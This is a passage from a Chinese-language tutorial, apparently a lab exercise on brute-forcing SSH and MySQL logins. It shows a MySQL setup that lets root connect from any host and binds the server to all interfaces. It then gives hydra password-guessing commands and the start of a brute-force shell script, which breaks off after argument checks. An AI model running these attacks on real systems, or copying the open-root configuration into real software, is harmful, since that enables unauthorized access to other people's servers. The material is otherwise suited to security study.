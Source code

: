 	重启了 `sshd` 服务：

	```bash
	sudo systemctl restart sshd
	```

	登录日志 `/var/log/secure` 检查。

- **针对MYSQL的更改：**

	在 `mysql` 中，修改 `root` 用户的权限，允许从任何主机（或特定 IP）连接：**【最有效】**

	```mysql
	UPDATE mysql.user SET host = '%' WHERE user = 'root' AND host = 'localhost';
	FLUSH PRIVILEGES;
	```

	检查 `root` 用户是否被允许从任何主机连接，执行以下 SQL 查询：

	```mysql
	SELECT user, host FROM mysql.user WHERE user = 'root';
	```

	MySQL 配置文件 `my.cnf`：
	找到 `bind-address` 设置项，修改它为 `0.0.0.0` 或服务器的 IP 地址：

	```cnf
	bind-address = 0.0.0.0
	```

### 方法一：使用hydra工具

1. SSH暴力破解

	```bash
	hydra -l username -P /path/to/passwordlist.txt ssh://target_ip
	```

2. MySQL暴力破解

	```bash
	hydra -l root -P /path/to/passwordlist.txt mysql://target_ip
	```

-l username：指定用户名。
-P /path/to/passwordlist.txt：指定密码字典文件。
target_ip：目标主机IP地址。

### 方法二：编写shell程序

**（1） 编写暴力破解的shell脚本，brute.sh：**

暴力破解，穷举配对。两个模块，ssh与mysql。

脚本代码如下：

```bash
#!/bin/bash

# 检查参数
if [ $# -ne 4 ]; then
    echo "Usage:$0 [userlist.txt] [passwordlist.txt] [type: mysql/ssh] [Target IP]"
    exit 1
fi

userlist=$1
passwordlist=$2
attack_type=$3
target_ip=$4

# 检查攻击种类
```